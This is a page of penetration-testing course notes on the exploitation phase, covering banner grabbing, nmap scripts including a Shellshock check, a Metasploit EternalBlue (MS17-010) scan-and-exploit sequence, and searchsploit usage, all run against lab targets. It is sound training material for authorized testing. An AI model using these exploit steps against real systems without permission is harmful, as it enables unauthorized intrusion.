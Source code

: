 # Exploitation

## [Exploitation](http://www.pentest-standard.org/index.php/Exploitation) Introduction <a href="#exploitation-introduction" id="exploitation-introduction"></a>

🗒️ **Exploitation** is a phase of a penetration test that focuses on establishing access, _initial foothold_, to a system or resource by bypassing security restrictions.

With a proper vulnerability analysis, the exploitation attack vector should focus on the success probability and the high value target assets with the highest impact on the scanned organization.

* _The use of automated exploitation tools (Metasploit, Powershell Empire, etc) shouldn't be prevalent_
* Exploitation methodology:
  * Identify Vulnerable Services
  * Prepare Exploit Code
  * Gaining Remote access
  * Bypass AV detection
  * Pivoting

***

## Vulnerability Scanning <a href="#vulnerability-scanning" id="vulnerability-scanning"></a>

* Identify running and vulnerable services

### [Banner Grabbing](https://cyberexperts.com/encyclopedia/banner-grabbing/) <a href="#banner-grabbing" id="banner-grabbing"></a>

🗒️ **Banner grabbing** is the info gathering manual or automatic process used to obtain software and services name and version. The host server displays a text with this information as a _banner_.

Tools and techniques:

* `nmap` service version detection scan
* `Netcat` connection
* Authentication with a supported service
* `curl` / `wget` to get headers details of an HTTP server

> 🔬 Check the [SSH Enumeration Lab here](../assessment-methodologies/enumeration/ssh-enum/ssh-recon-basic.md)

Some useful commands from the lab environment:

* `nmap`

```bash
nmap -sV -O <TARGET_IP>
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```bash
ls -al /usr/share/nmap/scripts/ | grep banner
    -rw-r--r-- 1 root root  6129 Jan  9  2019 banner.nse
    
nmap -sV --script=banner.nse <TARGET_IP>
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* `nc` / `netcat`

```bash
# e.g.
nc <TARGET_IP> <TARGET_OPEN_PORT>

nc 192.67.58.3 22                      
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
```

* SSH Authentication

```bash
ssh root@<TARGET_IP>
	Welcome to attack defense ssh recon lab!! # SSH Welcome Banner
```

### [Nmap Scripts](https://nmap.org/book/nse) <a href="#nmap-scripts" id="nmap-scripts"></a>

🗒️ **Nmap Engine Scripting** (**NSE**) - an `nmap` feature that allows to write simple scripts to automate a wide variety of tasks, like:

* network discovery
* sophisticated version detection
* vulnerability detection and exploitation
* backdoor detection

Scripts are written using the **Lua** programming language.

Nmap script default directory is:

* `/usr/share/nmap/scripts`

```bash
ls -al /usr/share/nmap/scripts | grep <keyword>
```

> 🔬 Check the [Bash - ShellShock Lab here](system-host-based-attack/linux-operating-system/bash.md)

* Some useful commands and `nmap` script scan from the lab environment:

```bash
nmap -sV -O <TARGET_IP>
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sV -p 80 --script=http-enum <TARGET_IP>

ls -al /usr/share/nmap/scripts | grep shellshock
    -rw-r--r-- 1 root root  5551 Jan  9  2019 http-shellshock.nse

nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <TARGET_IP>

# Vulnerable to the CVE-2014-6271
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### [Metasploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit) <a href="#metasploit" id="metasploit"></a>

Focus on the techniques and the flow to detect vulnerabilities.

> 🔬 Home Lab based on a Windows 7/2008 R2 target vulnerable to EternalBlue SMB RCE. Check the[ Lab 2 here](system-host-based-attack/windows-operating-system/smb.md)

```bash
sudo nmap -sS -sV <TARGET_IP>
```

```bash
searchsploit EternalBlue
searchsploit ms17-010
```

```bash
# Check the vulnerability with a scanner, before trying to exploit it
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <TARGET_IP>
run

use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run  
```

***

## Searching for Exploits <a href="#searching-for-exploits" id="searching-for-exploits"></a>

Exploit code can be found online or inside locally-stored exploit database in pentest Linux distributions (`searchsploit`, MSF).

**Verifiable online sources**:

* [exploit-db.com](https://www.exploit-db.com/)
  * always check for the **Verified** column
  * use search filters
  * [Dorks - Google Hacking Database](https://www.exploit-db.com/google-hacking-database)
* [Rapid7 db](https://www.rapid7.com/db/)

> ❗ **Always pay attention at publicly available exploits. An exploit can be weaponized to attack the actual attacker system!**
>
> 📌 Analyze the exploit code behavior to ensure that it works as intended.

### [Searchsploit](https://www.exploit-db.com/searchsploit) <a href="#searchsploit" id="searchsploit"></a>

🗒️ **`searchsploit`** - command line search tool for Exploit-Db that allows to have an offline copy of the Exploit-Db.

* Useful for security assessments on networks without Internet access
* Pre-packed with Kali Linux
* `exploitdb` local directory is:
  * `/usr/share/exploitdb`

```bash
# Debian-based distro install
sudo apt update && sudo apt -y install exploitdb
```

```bash
ls -al /usr/share/exploitdb

# Update the exploitdb package updates
searchsploit -u
```

```bash
searchsploit [options] <term>
searchsploit vsftpd 2.3.4

# Copy an exploit to the current working dir
searchsploit -m 49757    

# Case sensitive search
searchsploit -c OpenSSH

# Search just the exploit title
searchsploit -t vsftpd

# Exact search on title
searchsploit -e "Windows 7"

# Filters search
searchsploit remote windows smb
searchsploit remote linux ssh
searchsploit remote linux ssh OpenSSH
searchsploit remote webapps wordpress
searchsploit local windows
searchsploit local windows | grep -e "Microsoft"

# List online links
searchsploit -w remote windows smb | grep -e "EternalBlue"
```

'





